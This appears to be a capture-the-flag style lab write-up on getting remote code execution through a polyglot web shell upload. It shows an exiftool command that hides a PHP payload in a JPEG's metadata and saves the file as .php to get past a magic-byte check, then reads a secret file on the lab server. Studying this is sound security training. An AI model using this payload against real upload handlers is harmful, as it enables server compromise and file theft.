




# Remote code execution via polyglot web shell upload

## Lab Description :


## Overview :
Flawed validation of the file's contents -

Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

Certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes FF D8 FF

To bypass this restriction & upload a php webshell, we can use exiftool to create a polyglot webshell .

Command -
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
shebu@ubuntu:~/Desktop/websec$ exiftool polyglot.php 
ExifTool Version Number         : 12.44
File Name                       : polyglot.php
Directory                       : .
File Size                       : 8.3 kB
File Modification Date/Time     : 2023:07:30 15:10:32+05:30
File Access Date/Time           : 2023:07:30 15:11:50+05:30
File Inode Change Date/Time     : 2023:07:30 15:10:32+05:30
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
Image Width                     : 189
Image Height                    : 130
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 189x130
Megapixels                      : 0.025
```

comment -> tells exiftool to inject the payload in the comment part of EXIF-metadata of the image called flower.jpg. It can also be injected in other fields like document name by providing -documentname=

## Solution :
Login as wiener. This time server doesn't accept any kind of files except JPG file extention.



It checks the magic header of the file to determine if it is indeed a jpg file.

So using exiftool we create a polyglot file to upload. It is a jpg file but it will have php payload in its metadata. It will get executed when the file is processed on the server side.

Command - ``exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" flower.jpg -o polyglot.php``

This command will inject the php payload in the metadata of flower.jpg & save it in a o/p file as polyglot.php file.

Upload the polyglot webshell file.

The polyglot file is successfully uploaded.



Now perform a GET request to the polyglot file to get the secret from carlos's home directory.



Submit the secret to solve the lab.


#### Visit The Next Page For The Next Level :)
